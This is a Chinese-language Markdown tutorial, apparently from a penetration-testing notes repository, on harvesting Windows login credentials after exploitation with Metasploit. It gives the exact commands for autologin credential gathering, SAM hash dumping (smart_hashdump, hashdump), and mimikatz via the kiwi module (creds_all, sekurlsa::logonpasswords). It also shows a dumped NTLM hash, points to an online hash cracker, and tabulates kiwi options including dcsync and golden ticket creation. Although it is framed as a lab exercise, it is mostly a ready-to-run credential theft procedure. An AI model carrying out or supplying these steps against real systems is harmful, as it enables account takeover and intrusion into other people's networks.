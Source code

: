 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

首先获得一个有SYSTEM权限的meterpreter

![1644493974746](后渗透之获取登录账号密码.assets/1644493974746.png)

1 抓取自动登录账户密码

2 导出SAM数据库本地账户密码文件

3 导出密码哈希

4 使用kiwi模块获取

---

1  很多人喜欢给在计算机设置自动登录 我们可以通过抓取自动登录的账户密码

run windows/gather/credentials/windows_autologin

如果提示这证明本机并没有配置自动登录

![1644493985741](后渗透之获取登录账号密码.assets/1644493985741.png)

2  还可以通过导出SAM数据库中的本地用户账号（注意需要提权到SYSTEM）

run post/windows/gather/smart_hashdump

![1644493996549](后渗透之获取登录账号密码.assets/1644493996549.png)

| 用户名 | SID  | LM哈希:                          | NTLM哈希1:::                     |
| ------ | ---- | -------------------------------- | -------------------------------- |
| mb     | 1000 | aad3b435b51404eeaad3b435b51404ee | 32ed87bdb5fdc5e9cba88547376818d4 |

![1644494007420](后渗透之获取登录账号密码.assets/1644494007420.png)

3  使用  hashdump 获取密码（注意需要提权到SYSTEM才能使用）

终端内输入  run hashdump

![1644494019182](后渗透之获取登录账号密码.assets/1644494019182.png)

使用在线解析工具  https://www.cmd5.com/

NTLM哈希 例子：32ed87bdb5fdc5e9cba88547376818d4

![1644494029236](后渗透之获取登录账号密码.assets/1644494029236.png)

4  使用load kiwi（使用kiwi模块需要system权限）

kiwi_cmd 模块可以让我们使用mimikatz的全部功能， mimikatz 的命令直接在kiwi_cmd里直接使用

5.1 终端输入  load kiwi

5.2 creds_all  直接获取密码

![1644494040171](后渗透之获取登录账号密码.assets/1644494040171.png)

5.3 使用  kiwi_cmd sekurlsa::logonpasswords  获取密码

![1644494050257](后渗透之获取登录账号密码.assets/1644494050257.png)

| ID   | kiwi参数和描述                                         |
| ---- | ------------------------------------------------------ |
| 1    | creds_all：列举所有凭据                                |
| 2    | creds_kerberos：列举所有kerberos凭据                   |
| 3    | creds_msv：列举所有msv凭据                             |
| 4    | creds_ssp：列举所有ssp凭据                             |
| 5    | creds_tspkg：列举所有tspkg凭据                         |
| 6    | creds_wdigest：列举所有wdigest凭据                     |
| 7    | dcsync：通过DCSync检索用户帐户信息                     |
| 8    | dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID  |
| 9    | golden_ticket_create：创建黄金票据                     |
| 10   | kerberos_ticket_list：列举kerberos票据                 |
| 11   | kerberos_ticket_purge：清除kerberos票据                |
| 12   | kerberos_ticket_use：使用kerberos票据                  |
| 13   | kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令 |
| 14   | lsa_dump_sam：dump出lsa的SAM                           |
| 15   | lsa_dump_secrets：dump出lsa的密文                      |
| 16   | password_change：修改密码                              |
| 17   | wifi_list：列出当前用户的wifi配置文件                  |
| 18   | wifi_list_shared：列出共享wifi配置文件/编码            |